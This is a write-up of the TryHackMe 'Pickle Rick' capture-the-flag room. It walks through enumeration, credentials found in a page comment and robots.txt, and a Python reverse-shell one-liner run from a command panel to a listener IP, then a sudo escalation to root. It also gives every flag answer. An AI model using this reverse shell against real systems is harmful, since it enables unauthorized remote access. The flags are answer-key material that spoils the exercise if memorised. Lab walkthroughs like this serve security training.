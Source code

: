 # Pickle Rick
`url = https://tryhackme.com/room/picklerick`
`date = 05/22/2023`
`export IP='10.10.160.253'`

## Enumeration

1. **Network Enumeration**
```bash
Open 10.10.160.253:22
Open 10.10.160.253:80
```
* We can see that ports `22` & `80` are open which means that there is a website that can be enumerated. Other than that SSH is open as well.

2. **Directory Bruteforcing**
* On the website's landing page we can see a comment - `R1ckRul3s` as the username. We can save this for later.

* The following directories are available from dirsearch -
```bash
/assets
/index.html
/login.php
/robots.txt
```
* From the robots.txt we can also find another string that might be some kind of password that can be saved for later - `Wubbalubbadubdub`.
---

## Exploitation

1. From the given username - `R1ckRul3s` & password - `Wubbalubbadubdub`, we can now get login to the portal - `/login.php`.

2. Here there is a text field that can execute commands. From revshells page, we can get a python one liner that will setup a reverse shell to our system:
```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.36.128",1235));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```
---

## Post Exploitation
1. Once we have the reverse shell, cat out the first flag `Sup3rS3cretPickl3Ingred.txt` - "mr. meeseek hair".

2. The second flag can be found in `/home/rick/second ingredients` - "1 jerry tear".

3. The third flag can be found in the `/root` directory. Checking the output of the `sudo -l` command, we find that the user `www-data` can run all commands on this machine. Hence, directly running the command `sudo -su` without a password gives us access to the root user.

4. The final flag is "fleeb juice".

fin.
